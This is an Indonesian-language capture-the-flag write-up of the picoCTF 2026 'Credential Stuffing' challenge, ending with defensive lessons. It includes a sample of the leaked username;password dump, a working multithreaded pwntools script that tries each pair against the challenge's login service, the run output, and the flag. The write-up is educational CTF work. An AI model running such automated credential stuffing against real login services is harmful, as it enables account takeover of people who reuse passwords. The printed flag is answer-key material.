

# Credential Stuffing — picoCTF 2026

| Informasi | Detail |
|---|---|
| Event | picoCTF 2026 |
| Challenge | Credential Stuffing |
| Kategori | Web Exploitation |
| Poin | 100 |
| Difficulty | Medium |
| Author | David Gaviria |

## Deskripsi Challenge

Challenge ini membahas skenario **credential stuffing**, yaitu teknik menyerang form login dengan mencoba banyak pasangan username dan password yang berasal dari kebocoran data.

Deskripsi challenge:

```text
Credential stuffing is the automated injection of stolen username and password pairs (“credentials”) in to website login forms, in order to fraudulently gain access to user accounts.

Since many users will re-use the same password and username/email, when those credentials are exposed (by a database breach or phishing attack, for example) submitting those sets of stolen credentials into dozens or hundreds of other sites can allow an attacker to compromise those accounts too. Download the credentials dump here.

There was a recent data breach at a famous department store, in which the login credentials of thousands of users were stolen and dumped online. You're hoping at least one person reused their credentials from the department store for an account at a local bank. Stuff those credentials and get the flag!

Connect to the service with nc crystal-peak.picoctf.net 61371
```

Target service diberikan dalam bentuk koneksi TCP menggunakan `nc`:

```bash
nc crystal-peak.picoctf.net 61371
```

File dump credential yang diberikan adalah [`creds-dump.txt`](creds-dump.txt). File tersebut berisi banyak pasangan username dan password yang dipisahkan menggunakan karakter `;`.

## Reconnaissance / Analisis Awal

Pertama, saya mengecek file dump credential yang diberikan oleh challenge. Dari file [`creds-dump.txt`](creds-dump.txt), terlihat format datanya seperti berikut:

```text
rora;winner1
birendra;rumble
khalid;sting
stanislaw;ming
maged;nimrod
sigrid;telephon
alysse;sutton
emely;tyrant
cornel;rodman
shamira;marion
```

Setelah dicek, file ini memiliki sekitar 1500 baris credential:

```bash
wc -l creds-dump.txt
```

Output:

```text
1501 creds-dump.txt
```

Karena jumlah credential cukup banyak, mencoba satu per satu secara manual jelas tidak efisien. Service login juga berjalan melalui koneksi TCP interaktif, sehingga pendekatan paling praktis adalah membuat script otomatis untuk:

1. Membaca semua credential dari file dump.
2. Membuka koneksi ke service.
3. Mengirim username.
4. Mengirim password.
5. Mengecek response dari server.
6. Berhenti ketika menemukan credential valid dan flag.

## Vulnerability Identified

Vulnerability utama pada challenge ini adalah **credential reuse** yang dapat dieksploitasi melalui **credential stuffing**.

Celah ini bisa ada karena ada user yang menggunakan ulang username dan password dari layanan lain. Dalam konteks challenge, credential berasal dari kebocoran data sebuah department store, lalu credential tersebut dicoba ke layanan bank lokal. Jika ada user yang memakai credential sama di kedua layanan, attacker dapat login tanpa perlu melakukan exploit teknis seperti SQL injection atau brute force password murni.

Kenapa serangan ini berhasil:

1. Attacker memiliki daftar credential hasil breach.
2. Service menerima login menggunakan username dan password biasa.
3. Tidak ada mekanisme proteksi yang cukup kuat terhadap percobaan login massal, seperti rate limiting ketat, lockout, CAPTCHA, atau deteksi anomali.
4. Salah satu user ternyata melakukan reuse credential.
5. Ketika credential valid ditemukan, server langsung memberikan akses dan menampilkan flag.

Secara konsep, ini bukan kelemahan pada parsing input atau query database, melainkan kelemahan pada praktik keamanan akun dan proteksi autentikasi.

## Exploitation Steps

### 1. Menguji koneksi ke service

Service dapat diakses menggunakan `nc`:

```bash
nc crystal-peak.picoctf.net 61371
```

Secara umum, service meminta input username dan password:

```text
Username:
Password:
```

Jika credential tidak valid, server mengembalikan pesan gagal seperti berikut:

```text
Invalid username or password
```

### 2. Menyiapkan script otomatis

Karena credential dump berisi sekitar 1500 baris, saya membuat script Python bernama [`exploit.py`](exploit.py). Script ini menggunakan koneksi TCP ke service, membaca setiap baris dari [`creds-dump.txt`](creds-dump.txt), lalu mencoba login satu per satu.

Script exploit yang digunakan:

```python
from concurrent.futures import ThreadPoolExecutor, as_completed
from pwn import *
import threading

HOST = "crystal-peak.picoctf.net"
PORT = 61371

found = threading.Event()

def try_login(line):
    if found.is_set():
        return None

    user, pwd = line.strip().split(";", 1)

    try:
        r = remote(HOST, PORT, timeout=5)

        r.recvuntil(b"Username:")
        r.sendline(user.encode())

        r.recvuntil(b"Password:")
        r.sendline(pwd.encode())

        data = r.recvall(timeout=3)
        r.close()

        text = data.decode(errors="ignore").strip()

        # kosong => bukan valid
        if not text:
            return None

        # pesan gagal => bukan valid
        if "Invalid username or password" in text:
            return None

        found.set()
        return user, pwd, text

    except Exception:
        return None


with open("creds-dump.txt") as f:
    creds = [line.strip() for line in f if ";" in line]

with ThreadPoolExecutor(max_workers=5) as executor:
    futures = [executor.submit(try_login, c) for c in creds]

    for future in as_completed(futures):
        result = future.result()

        if result:
            user, pwd, output = result

            print("\n[+] POSSIBLE VALID CREDENTIAL")
            print(f"Username: {user}")
            print(f"Password: {pwd}")
            print("\n=== RESPONSE ===")
            print(output)

            break
```

Beberapa bagian penting dari script:

- Credential diparsing menggunakan delimiter `;`.
- Setiap credential dicoba dengan membuka koneksi baru ke service.
- Jika response mengandung `Invalid username or password`, credential dianggap tidak valid.
- Jika response berbeda dari pesan gagal, script menganggap credential tersebut valid.
- `ThreadPoolExecutor` digunakan agar percobaan credential lebih cepat dibanding eksekusi serial.

### 3. Menjalankan exploit

Script dijalankan dari direktori challenge:

```bash
python3 exploit.py
```

Output penting yang didapatkan:

```text
[+] Opening connection to crystal-peak.picoctf.net on port 61371: Done
[*] Closed connection to crystal-peak.picoctf.net port 61371
[+] Opening connection to crystal-peak.picoctf.net on port 61371: Done
[+] Receiving all data: Done (89B)
[*] Closed connection to crystal-peak.picoctf.net port 61371

[+] POSSIBLE VALID CREDENTIAL
Username: allen
Password: talon

=== RESPONSE ===
talon

Authenticating...
Welcome allen!
picoCTF{d0nt_r3u5e_cr3d3nt1als_433b090c}
```

Dari output tersebut, credential valid yang ditemukan adalah:

```text
Username: allen
Password: talon
```

Setelah login berhasil sebagai user `allen`, server langsung menampilkan flag.

Screenshot hasil exploit:



## Flag

```text
picoCTF{d0nt_r3u5e_cr3d3nt1als_433b090c}
```

## Lesson Learned

Challenge ini menunjukkan bahwa reuse password pada beberapa layanan dapat berdampak serius ketika salah satu layanan mengalami kebocoran data. Dari sisi defender, mekanisme seperti rate limiting, deteksi login anomali, MFA, dan edukasi penggunaan password unik sangat penting untuk mengurangi risiko credential stuffing.

Writer : Muhammad Afif Nuromli